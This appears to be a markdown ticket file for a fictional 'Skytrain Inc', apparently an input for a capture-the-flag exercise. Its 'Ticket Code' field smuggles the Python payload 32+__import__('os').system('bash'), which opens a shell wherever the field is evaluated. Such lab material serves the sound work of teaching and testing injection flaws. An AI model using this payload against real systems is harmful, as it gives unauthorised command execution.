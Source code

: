 # Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**32+__import__('os').system('bash')**
##Issued: 2021/04/06
#End Ticket
